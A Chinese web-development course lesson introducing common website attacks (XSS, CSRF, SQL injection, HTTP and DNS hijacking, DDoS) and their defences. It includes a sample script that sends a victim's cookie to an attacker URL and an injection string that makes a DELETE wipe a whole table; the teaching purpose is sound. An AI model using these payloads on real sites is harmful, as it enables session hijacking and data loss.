


---
date: "2019-06-23"
---  
      
# 31 | 防人之心不可无：网站安全问题窥视
你好，我是四火。

今天，我们来学习一些网站安全的基础知识。作为一名 Web 全栈工程师，不可避免地会经常性地面对网站安全的问题，因此有关安全的学习是十分必要的。这一讲我们就来看一些常见的安全问题，并了解它们相应的解决办法，加强安全意识。

## 鉴权和授权

我把这两个概念的比较放在开头，是因为这两个概念有相关性且很常用，还有就是这二者太容易被混用了，但是实际上，它们却又是大不相同的。**鉴权，Authentication，指的是对于用户身份的鉴别；而授权，Authorization，指的是允许对于特定资源的指定操作。**

我们可以借助具体的例子来深入了解。

先说说鉴权。网站的登录系统，输入正确的用户名和密码以便登陆，这个过程就是一个鉴权参与的过程。输入了正确的用户名和密码，系统就能够确认用户的身份，鉴权也就成功了。再比如我们在 [\[第 02 讲\]](https://time.geekbang.org/column/article/135864) 中介绍的 HTTPS 通信，其中的密钥也是起到了“鉴别身份”的作用，这个起作用的过程也属于鉴权。

**为了安全考虑，在实际应用中鉴权有时不是靠“单因子”（Single-Factor）就够了的，我们还会采用“多因子”（Multi-Factor）的方式。**

举个例子，银行转账的时候，你光输入账号和转账密码，这是属于单因子，一般是不够的，还必须有其它的因子，比如说 U 盾等等。多个因子之间一般要求是独立的，无依赖关系。再比如说，你通过电话去办理通讯业务的时候，有时候为了证明你的身份，你会被要求提供 PIN 或者密码以外的其他“个人信息”，像是说出最近三次通话的电话号码，这些方式，都是为了增加“鉴权因子”的种类，从而提高安全级别。

<!-- [[[read_end]]] -->

再来举个授权的例子。还记得我们在 [\[第 04 讲\]](https://time.geekbang.org/column/article/136795) 中介绍的“资源”吗？对于不同的资源，不同的用户拥有不同的权限，而授权根据权限配置，确定用户对特定的资源是否能执行特定的行为。比如说，我们提到过的图书馆系统，授权确定用户是否能够查看图书信息，是否能够修改图书信息等等。


## 常见的 Web 攻击方式

好，我想你已经理解了鉴权和授权的含义与区别。下面我就来介绍几种常见的 Web 安全问题，在这部分的学习过程中，你可以联想一下在你经历过的项目，是否具备相同的安全隐患？

### 1\. XSS

XSS，Cross Site Script，跨站脚本攻击。原理是攻击者通过某种方式在网页上嵌入脚本代码，这样，正当用户在浏览网页或执行操作的时候，脚本被执行，就会触发攻击者预期的“不正当”行为。

举个例子。在 [\[第 29 讲\]](https://time.geekbang.org/column/article/166084) 中我介绍了会话的原理，服务端给用户分配了一个标识身份的字符串，整个会话生命周期内有效，保存在浏览器的 Cookie 中（如果你忘记了，请回看）。

现在，攻击者在服务器返回的普通页面中嵌入特殊的脚本代码，那么在普通用户浏览这个网页的时候，这个特殊的脚本代码就得到了执行，于是用户的 Cookie 通过请求的方式发送给了这个攻击者指定的地址，这样攻击者就劫持了用户的会话，利用 Cookie 中标识身份的字符串，就可以伪装成实际的用户，来做各种坏事了。这个过程见下图：



你可能会想了，那在服务器端严格控制，不让用户上传脚本不就得了？

可是，**这个恶意脚本的上传，往往是通过“正常”的页面访问来进行的，因此这个控制方法很容易疏漏。**比如给正常页面的请求添加特殊的参数，或者是提交信息表单的时候，构造一些特殊值。它们是利用网站的漏洞来做文章的，像是缺乏对用户上传的数据进行字符转义，而直接将这样的上传数据显示到页面上。

举个例子：用户可以在电商网站的产品页面提交对产品的评论，并且，这个评论会显示到产品页上。于是攻击者上传了这样一段产品评论：

```
    评论内容上半部分
    <script>
      var script =document.createElement('script');
      script.src='http://...?cookie=' + document.cookie;
      document.body.appendChild(script);
    </script>
    评论内容下半部分
    

```

如果这个电商网站没有对用户上传的评论做转义或者字符过滤，那么这个评论在展示的时候会显示“评论内容上半部分”和“评论内容下半部分”，中间的 script 标签没有任何显示，但其中的脚本却被偷偷摸摸地执行了。

* 浏览器构造了一个新的 script 节点，并将其 src 属性指向攻击者指定的服务器地址，并将当前页面的 Cookie 放在其参数内。
* 接着，再将这个新的 script 节点添加到 HTML 页面的 body 标签内。
* 于是，浏览器就会向这个 src 的地址发送一个带有当前 Cookie 的请求。

于是攻击者就可以获得用户浏览器内的会话标识串，从而劫持用户的会话了，例如可以仿冒用户的身份购物并寄往指定地址。

知道了原理，我们就可以针对 XSS 的特点来进行防御，比如有这样两个思路：

* 第一个，做好字符转义和过滤，让用户上传的文本在展示的时候永远只是文本，而不可能变成 HTML 和脚本。
* 第二个，控制好 Cookie 的作用范围。比如服务器在返回 Set-Cookie 头的时候，设置 HttpOnly 这个标识，这样浏览器的脚本就无法获得 Cookie 了，而用户却依然可以继续使用 Cookie 和会话。

当然上述内容只是 XSS 原理的一个简单示意，实际的跨站脚本攻击会比这个复杂且隐蔽得多。而且，这个跨站脚本可不只是能偷偷摸摸地把用户的 Cookie 传给攻击者，还能做其它的事情，比如我下面将要介绍的 CSRF。

### 2\. CSRF

CSRF，Cross-Site Request Forgery，跨站请求伪造，它指的是攻击者让用户进行非其本意的操作。CSRF 和 XSS 的最大区别在于，**在 CSRF 的情况下，用户的“非其本意”的行为全部都是从受害用户的浏览器上发生的，而不是从攻击者的浏览器上挟持用户会话以后发起的。**

在讲 XSS 的时候我讲到了，如果使用 HttpOnly 方式的话，攻击者就无法获得用户的 Cookie，因此之前例子所介绍的 XSS 就很难发生。但 CSRF 没有这个限制，它可以在不拿到用户 Cookie 的情况下进行攻击，也就是说，从这个角度上看，它更难以防范。

我们还是接着 XSS 中攻击脚本的例子，如果这段脚本不是将用户的 Cookie 上传，而是直接提交购物下单的 HTTP 请求，并寄往指定地址，那它和 XSS 中的那个例子比较起来看，后果是一样的。因此，从这个角度看，技术变了，从 XSS 变成了 CSRF，可危害程度并没有减轻。这个过程见下图：



值得一提的是，有时候这个请求伪造，不一定要通过 JavaScript 的脚本完成，比如依然是那个电商网站的例子，用户可以发布评论，并且这个评论的录入缺乏字符转义和过滤。现在我们把评论内容改成如下的样子：

```
    评论内容 1
    
    评论内容 2
    

```

你看，原本中间的 script 脚本，变成了 img 标签，这个 img 图像的 src 是一个相对路径，这里指向的是登出的 URI。于是每当用户访问这个评论展示的页面，浏览器就试图去发送 logout 请求来加载这张假的图片，于是用户就“莫名其妙”地自动登出了。这里攻击者使用了一个 img 标签来发送这个登出的请求，而没有使用任何脚本。

在理解了原理之后，我们就可以制定一些应对策略了。除了和 XSS 一样，做好字符的转义和过滤以外，针对 CSRF，我们还可以考虑如下应对策略：

* 第一种，使用 HTTP 的 Referer 头，因为 Referer 头可以携带请求的来源页面地址，这样可以根据 Referer 头鉴别出伪造的请求。
* 第二种，使用 token，原理上也很简单，服务端给每个表单都生成一个随机值，这个值叫做 token。Token 和我们前面讲到的用来标识用户身份的 Cookie 所不同的是，前者是对每个页面或每个表单就会生成一个新的值，而后者则是只有会话重新生成的时候才会生成。当用户正常操作的时候，这个 token 会被带上，从而证明用户操作的合法性，而如果是 CSRF 的情形，这个请求来自于一个非预期的位置，那么就不可能带有这个正确的 token。

**值得注意的是，CSRF 和 XSS 不是地位均等的，具体说，在防范 CSRF 的情况下，必须首先确保没有 XSS 的问题，否则 CSRF 就会失去意义。**因为一旦用户的会话以 XSS 的方式被劫持，攻击者就可以在他自己的浏览器中假装被劫持用户而进行操作。由于攻击者在他自己的浏览器中遵循着正确的操作流程，因而这种情况下无论是 Referer 头还是 token，从服务端的角度来看都是没有问题的，也就是说，当 XSS 被攻破，所有的 CSRF 的防御就失去了意义。

### 3\. SQL 注入

SQL 注入，指的是攻击者利用网站漏洞，通过构造特殊的嵌入了 SQL 命令的网站请求以欺骗服务器，并执行该恶意 SQL 命令。

乍一听也许你会觉得这种方式在技术上可能比较难实现，和前面介绍的在用户的浏览器上做文章比起来，毕竟 SQL 的执行是位于整个 Web 栈中较靠下的持久层，得“突破层层防守”才能抵达吧，可事实并非如此。

SQL 注入原本可是很常见的，这些年由于持久层框架帮 Web 程序员做了很多 SQL 参数注入的事儿，程序员就很少自己去手动拼接 SQL 了，SQL 注入的漏洞自然就少得多了，但是一旦出现，和 XSS 或 CSRF 比起来，由于不需要特定的用户访问指定的页面，攻击者可以独立完成入侵的过程，并且效果是可以执行 SQL，因而影响往往是巨大的。

比如有这样一条 SQL 的语句拼接：

```
    String sql = "DELETE FROM RECORDS WHERE ID = " + id + " AND STATUS = 'done'"
    

```

其中，这个 id 表示单条记录，且由用户的表单以字符串参数 id 的方式提交上来。这条 SQL 的本意是要删除一条以 id 为主键的记录，并且只有其状态在已完成（Status 为 done）的时候才允许删除。

现在，攻击者在提交的时候精心构造了这样一个字符串参数 id：

```
    "'123' OR 1 = 1 --"
    

```

于是，这条 SQL 语句在拼接后就变成了：

```
    DELETE FROM RECORDS WHERE ID = '123' OR 1 = 1 -- AND STATUS = 'done'
    

```

你看，虽然 WHERE 字句包含了对 ID 的判断，但是后面有一个恒真的“或”条件“1 = 1”，而且后面的 STATUS 判断被注释符号“–”给屏蔽掉了。于是，这条恐怖的删除所有记录的 SQL 就被执行了。

现在你可以想象一下 SQL 注入的影响到底有多么严重了。在本章我已经提到过，程序的问题还好修复或回滚，但是数据造成的损失往往很难修复。

知道了原理，那么我们就可以采取相应的措施来应对了：

* 第一种，对于参数进行转义和过滤，这和我们前面介绍的 XSS 的应对是一样的。如果参数的格式明确，我们应当较为严格地校验参数，比如上面的例子，如果 id 实际是一个数值，那么用户输入非数值就应当报错。
* 第二种，SQL 的语句执行尽可能采用参数化查询的接口，而不是单纯地当做字符串来拼接。当然，一般在使用持久化框架的时候，这样的事情框架一般都替程序员考虑到了。
* 第三种，严格的权限控制，这和 Linux 下面权限控制的原则是一样的，保持“最小授权”原则，即尽可能只授予能实现功能的最小权限。

### 4\. HTTP 劫持

HTTP 劫持的原理很简单，但是却非常常见。就是说，由于 HTTP 协议是明文通信的，它就可以被任意篡改。而干这事儿干得最多的，不是什么传统意义上的“黑客”，而是那些无良的网络服务提供商和运营商们，他们利用对网络控制之便利，通过这种方式强行给用户塞广告。

我有一个个人的博客网站，有一次有读者跟我说：“你为什么投放垃圾广告？”一开始我还很纳闷，我可从来没有干过这事儿啊，怎么会有广告，后来才知道，其实，这就是因为遭遇了无良运营商的 HTTP 劫持。下面的这个截屏（来自[这篇](http://bigsec.com/bigsec-news/wechat-16824-yunyingshangjiechi)文章），右下角的广告就是通过 HTTP 劫持干的。


虽然可以任意修改 HTTP 响应报文，但是修改就可能带来对原页面的影响。于是，攻击者为了对用户造成的影响尽量小，而达到“单纯”地投放广告的目的，很可能会使用 iFrame。它利用了 iFrame 和母页面相对独立的特性，比方说：

```
    <iframe id="fulliframe" name="fulliframe" frameSpacing=0 noResize height=1350 marginHeight=0 border=0 src="原网页" frameBorder=0 width="100%" scrolling=no vspale="0"></iframe>
    

```

你看，原网页被装到了一个 iFrame 里面去，并且这个 iFrame 没有边，大小占据了整个浏览器，因此用户很可能不知情，但是，整个页面实际已经被替换掉了，那么也就可以在这个 iFrame 以外添加浮动广告了。

对于 HTTP 劫持，由于攻击者利用了 HTTP 明文传输的特性，因此解决方案很简单，就是将网站切换为 HTTPS。至于其它的方法，相对都比较特例化，并不一般和通用，只有将传输加密才是最理想的解决方案。

### 5\. DNS 劫持

DNS 劫持的原理也很简单（你如果忘记了 DNS 的工作机制，可以回看 [\[第 29 讲\]](https://time.geekbang.org/column/article/166084)），用户的浏览器在通过 DNS 查询目标域名对应的 IP 地址的时候，会被攻击者引导到一个恶意网站的地址。这个假的网站也可以有相似的页面布局，也可能有“正规”方式申请的 HTTPS 证书，换言之，**HTTPS 加密通信并不能防范 DNS 劫持**，因此用户很可能被欺骗而不察觉。

如果你还不是很理解，那让我再来进一步解释。当浏览器敲入域名地址并回车，用户在网上冲浪的整个过程，一环套一环，只要有任何一环存在安全隐患，那么其它环节的安全工作做得再好也是没有用的。DNS 假如被劫持了，浏览器都去和一个假冒的网站通信了，HTTPS 加密做的也只是保证你和这个假冒网站通信的完整性、保密性，那还有何用？**就好比要去药店买药，可去了家假的药店，那么保证整个交易过程的安全性就失去了它原本的意义了。**

对于真正开发维护 Web 网站或应用的程序员来说，DNS 劫持相对来说比较难以防范，因为 DNS 解析的步骤，从整个过程来看，请求根本还没有到达实际的应用，确实有些无能为力。

事实上，**安全防范的各个环节就像一个木桶的各个木板，网络公共服务的安全性，经常决定了用户网上冲浪安全性的上限。**2010 年的[百度被黑事件](https://baike.baidu.com/item/%E7%99%BE%E5%BA%A6%E8%A2%AB%E9%BB%91%E4%BA%8B%E4%BB%B6)，就是遭遇了 DNS 劫持。由于 DNS 解析的过程比较长，劫持可能发生在网络，也可以发生在本机（别忘了本机有 hosts 文件），还可能发生在某一个子网的路由。对于 DNS 网络明文通信带来的隐患，有一个安全的域名解析方案，叫做 [DNS over HTTPS](https://zh.wikipedia.org/wiki/DNS_over_HTTPS)，目前还在实验阶段，仅有部分 DNS 服务支持。

### 6\. DDoS 攻击

最后我来简单介绍一下 DDoS，Distributed Denial-of-Service，分布式拒绝服务，这种攻击方式从理论上说，最难以防范，被称为互联网的“癌症”。

为什么呢？因为它的原理是，攻击者使用若干被“攻陷”的电脑（比如被病毒占领和控制的“肉鸡”），向网络应用和服务同一时间发起请求，通过一瞬间的请求洪峰，将服务冲垮。

**DDoS 攻击的目的不是偷窃用户数据，也不是为了仿冒用户身份，而是“无差别”阻塞网络，引发“拒绝服务”，让正常使用网站和应用的用户难以继续使用，这个“无差别”最要命，简单、粗暴，但却有效。**

因此对于 DDoS 的攻击，我们需要整个网络链路配合，包括路由器、交换机、防火墙等等组件，采取入侵检测和流量过滤等多种方式来联合防范。这部分的内容涉及比较多，我在扩展阅读放了一点材料，感兴趣的话可以阅读。

## 总结思考

今天我们重点学习了常见的几种 Web 攻击方式，希望你从中学到了一些网站安全问题的知识和相应的应对办法，毕竟，安全无小事。

下面来提两个问题吧：

* 手动输入验证码的功能如今已经被广泛使用了，你觉得对于今天介绍的攻击方式，验证码可以用来防范它们中的哪一些？
* 假如你需要设计一个电商的网上支付功能，用于在线购买商品，用户需要填写信用卡信息并提交。对于这个过程，从安全的角度看，你觉得有哪些措施是必须要采取，从而提高支付行为整体的安全性的？

## 扩展阅读

* 文中提到了 HttpOnly 标识，想了解更多细节你可以阅读[这篇文章](https://www.owasp.org/index.php/HttpOnly#What_is_HttpOnly.3F)。
* 文中提到了 HTTP 的 Referer 头，你可以参阅[维基百科](https://zh.wikipedia.org/wiki/HTTP%E5%8F%83%E7%85%A7%E4%BD%8D%E5%9D%80)获得更详细的介绍。
* 文中提到了 SQL 的参数化查询，如果不了解，可以阅读这篇[介绍](https://zh.wikipedia.org/wiki/%E5%8F%83%E6%95%B8%E5%8C%96%E6%9F%A5%E8%A9%A2)。
* 关于 DDoS 攻击的分类，可以参阅这个[词条](https://zh.wikipedia.org/wiki/%E9%98%BB%E6%96%B7%E6%9C%8D%E5%8B%99%E6%94%BB%E6%93%8A)，国内很多个人站点的站长都对它深恶痛绝，比如你可以看看[这篇记录](http://www.ruanyifeng.com/blog/2018/06/ddos.html)，还有关于历史上五个最著名的 DDoS 攻击请参阅[这篇文章](https://www.a10networks.com/blog/5-most-famous-ddos-attacks/)。